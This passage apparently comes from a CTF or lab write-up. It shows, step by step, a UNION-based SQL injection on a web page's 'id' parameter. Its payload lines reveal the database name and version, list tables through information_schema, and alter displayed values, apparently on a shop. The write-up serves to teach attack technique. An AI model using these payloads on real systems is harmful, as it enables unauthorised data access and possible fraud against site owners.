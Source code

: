 <br>


![image](https://github.com/user-attachments/assets/62412608-4a88-4c2e-8efd-37ef9247a743)

<br>

<p>So we can conclude that there are <code>5</code> columns!  Leté try <code>UNION</code></p>

<br>

![image](https://github.com/user-attachments/assets/097118f6-9e37-45be-bca5-f53034b80bd6)

<br>

<pre><code>?id=5%20union%20select%201,database(),3,version(),5</code></pre>

![image](https://github.com/user-attachments/assets/ebff2b2c-1b99-4610-9e0d-c7e0140d81fc)

<br>

<p>Now we now the version!</p>



<p>Buy, Buy, Buy</p>

<br>

![image](https://github.com/user-attachments/assets/d3bfe821-a1a6-49f8-a417-88908768be4b)


<br>

![image](https://github.com/user-attachments/assets/a9df154f-133b-4596-b60d-222bd010ad61)

<br>

<pre><code>?id=5%20union%20select%201,group_concat(table_name),3,4,5%20from%20information_schema.tables</code></pre>

<br>

![image](https://github.com/user-attachments/assets/a8f44e9b-199a-4fd7-a26b-80c9d14451bf)

<br>

<pre><code>?id=5 union select 1,group_concat(table_name),3,4,5 from information_schema.tables where table_schema = database()</code></pre>

<br>

![image](https://github.com/user-attachments/assets/3d5d88a9-c949-4c3c-806d-5c51db1e747d)

<p>Let´s have some fun ...</p>


<pre><code>?id=5 union select 1,group_concat(table_name),2000000,1000,199 from information_schema.tables where table_schema = database()</code></pre>

<br>
